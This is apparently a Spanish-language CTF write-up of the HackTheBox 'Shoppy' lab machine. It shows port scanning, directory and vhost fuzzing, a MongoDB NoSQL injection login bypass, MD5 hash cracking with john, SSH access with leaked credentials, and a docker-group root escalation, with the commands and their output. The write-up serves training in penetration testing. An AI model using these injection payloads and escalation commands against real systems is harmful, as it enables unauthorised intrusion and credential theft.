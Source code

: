```yaml
---
title: HTB Shoppy
date: 2025-10-17 00:00:00 +0800
categories: [hackthebox, machine, writeup, liniux, easy]
tags: [linux, hackthebox, writeup, no sql, docker, easy, virtual hosting]
pin: false
image: /assets/img/posts//htb/shoppy/ShoppyLogo.png
---
```


Les explicaré cómo comprometer la máquina [Shoppy](https://app.hackthebox.com/machines/496) de HackTheBox. En esta máquina nos enfretaremos a un `NoSQLi` de `MongoDB` y ganaremos acceso al sistema gracias a una contraseña filtrada y para la escalada nos vamos a aprovechar del grupo **Docker**.

## Escaneo NMAP

Antes de empezar les recomiendo hacer un escaneo para saber que puertos estan abiertos y que servicios corren por ellos, ya que esta información nos sera util para continuar con la prueba de penetración.

``````bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.180 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-15 11:59 -04
Initiating SYN Stealth Scan at 11:59
Scanning 10.10.11.180 [65535 ports]
Discovered open port 80/tcp on 10.10.11.180
Discovered open port 22/tcp on 10.10.11.180
Discovered open port 9093/tcp on 10.10.11.180
Completed SYN Stealth Scan at 12:00, 15.14s elapsed (65535 total ports)
Nmap scan report for 10.10.11.180
Host is up, received user-set (0.16s latency).
Scanned at 2023-01-15 11:59:53 -04 for 16s
Not shown: 65368 closed tcp ports (reset), 164 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
9093/tcp open  copycat syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.33 seconds
           Raw packets sent: 74269 (3.268MB) | Rcvd: 73540 (2.942MB)
``````


Nos percatamos que tiene el **SSH** abierto y el puerto 80 que corresponde al **HTTP**, al entrar a la web no vemos nada, ya que se esta aplicando virtual hosting, para solucionarlo hacemos lo siguiente:

```bash
echo "10.10.11.180       shoppy.htb" | tee -a /etc/hosts
```

Ahora debemos ver una web con una cuenta regresiva, nada importante

## Enumeración

Enumerando directorios con **WFUZZ** nos encontramos lo siguiente.
***Nota: Debes tener clonado el repositorio de*** **SecList**
```bash
❯ wfuzz -c --hc=404 -t 50 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://shoppy.htb/FUZZ  2>/dev/null
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://shoppy.htb/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000053:   200        25 L     62 W       1074 Ch     "login"                                                                                                                
000000016:   301        10 L     16 W       179 Ch      "images"                                                                                                               
000000291:   301        10 L     16 W       179 Ch      "assets"                                                                                                               
000000259:   302        0 L      4 W        28 Ch       "admin"   
```
Nos encontramos con **/login** , intentamos acceder pero esta protegido por un login, podemos probar con una injección **SQL** y ver si es vulnerable a este tipo de ataque.

![Login Shoppy]({{ '/assets/img/posts//htb/shoppy/login.png' | relative_url }}){: .center-image }
_Login Shoppy_

Introducimos una comilla al final del usuario para ver si la query de la consulta es vulnerable a SQL injection, notamos que el servidor se demora en responder, por lo que confirmamos que es vulnerble.

![Login Shoppy]({{ '/assets/img/posts//htb/shoppy/login3.png' | relative_url }}){: .center-image }
_Login Shoppy_
Podemos seguir probando tipicas SQL injection, pero al final ninguna funcionará.
```bash
'
'-- -
' or '1'='1
' or '1'='1'-- -
```
Pero vemos que ninguna funciona, eso nos da una pista que debemos probar con una injección NoSQL, una base de las bases de datos mas usadas son **MongoDB**, buscando payloads en **Google** encontramos estos blogs [MongoDB SQL injection](https://nullsweep.com/a-nosql-injection-primer-with-mongo/) y  este otro blog [No SQl injection](https://nullsweep.com/nosql-injection-cheatsheet/).

Podemos probar `admin'||'1==1` y poner cualquier contraseña:

![Login Shoppy]({{ '/assets/img/posts//htb/shoppy/login1.png' | relative_url }}){: .center-image }
_Bypass Login_

Bingo!!! Ganamos acceso como administrador, en el buscador podemos repetir la injección.
![Login Shoppy]({{ '/assets/img/posts//htb/shoppy/login2.png' | relative_url }}){: .center-image }

Nos sale una opción para descargar un archivo `JSON`, cuando vemos el archivo vemos 2 usuarios y sus respectivos hashes. Creamos un archivo con los hashes y lo intentaremos crakear con john

```bash
echo "admin:23c6877d9e2b564ef8b32c3a23de27b2" > hashes
echo "josh:6ebcea65320589ca4f2f1ce039975995" >> hashes
❯ john -w:/usr/share/wordlists/rockyou.txt hashes --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
remembermethisway (josh)
1g 0:00:00:02 DONE (2023-01-15 12:44) 0.4444g/s 6374Kp/s 6374Kc/s 6735KC/s  fuckyooh21..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed

```
Tenemos una contraseña, podemos buscar por subdominios a ver que nos encontramos

```bash
❯ gobuster vhost  -w /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://shoppy.htb/ -t 200
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shoppy.htb/
[+] Method:       GET
[+] Threads:      200
[+] Wordlist:     /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/01/15 12:48:41 Starting gobuster in VHOST enumeration mode
===============================================================
Found: mattermost.shoppy.htb (Status: 200) [Size: 3122]
Progress: 52985 / 100001 (52.98%)    
```

Tenemos un subdominio, la misma historia lo añadimos en el `/etc/hosts`.

Al entrar en el web nos encontramos con esto
![Login Shoppy]({{ '/assets/img/posts//htb/shoppy/josh.png' | relative_url }}){: .center-image }
_Login Mattermost_

Viendo las conversaciones nos dan un usuario y sus credenciales para el *SSH*, nos conectamos.
![Login Shoppy]({{ '/assets/img/posts//htb/shoppy/matt.png' | relative_url }}){: .center-image }
_Information leaked_

```bash
❯ ssh jaeger@10.10.11.180
jaeger@10.10.11.180's password: Sh0ppyBest@pp!
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jan 15 11:02:26 2023 from 10.10.14.26
manpath: can't set the locale; make sure $LC_* and $LANG are correct
jaeger@shoppy:~$ export TERM=xterm
jaeger@shoppy:~$ 
```
Una vez dentro podemos ver si tenemos algún privilegio asignado a sudo, vemos que podemos ejecutar como el usuario `deploy` un ejecutable.

## Enumeración del sistema

```bash
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger: Sh0ppyBest@pp!
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
jaeger@shoppy:~$ 

```
Intentamos ejecutar el comando
```bash
jaeger@shoppy:~$ sudo -u deploy /home/deploy/passw*
Welcome to Josh password manager!
Please enter your master password: Password
Access denied! This incident will be reported !
jaeger@shoppy:~$ 
```
La contraseña no es correcta, jugando con `XXD` podemos ver que la contraseña se filtra, bingo ya descubrimos la contraseña, ahora lo ejecutamos como el usuario deploy


![Login Shoppy]({{ '/assets/img/posts//htb/shoppy/xxd.png' | relative_url }}){: .center-image }
_Password-Manager_


```bash
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
jaeger@shoppy:~$ 
```
Podemos migrar al usuario *Deploy* .

```bash
jaeger@shoppy:~$ su deploy
Password: Deploying@pp!
$ bash
deploy@shoppy:/home/jaeger$ 
deploy@shoppy:/home/jaeger$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
deploy@shoppy:/home/jaeger$ 

 ```

## Escalada de privilegios
Pertenecemos al grupo `docker`  mirando [GtfObins](https://gtfobins.github.io/gtfobins/docker/#shell) podemos ver que podemos abusar del grupo **docker**
Ejecutamos el comando nos da una shell como root.

 ```bash
 deploy@shoppy:/home/jaeger$ docker run -v /:/mnt --rm -it alpine chroot /mnt bash
root@3ea87a82734f:/# 
 ```
Ganamos acceso root, ya rooteamos la máquina ahora podemos leer las  flags respectivas para cada usuario.

```bash
root@3ea87a82734f:~# cat root.txt 
3d4c1a0477********************66
root@3ea87a82734f:~# cat /home/jaeger/user.txt 
3d97fe0060********************67
root@3ea87a82734f:~# 
```
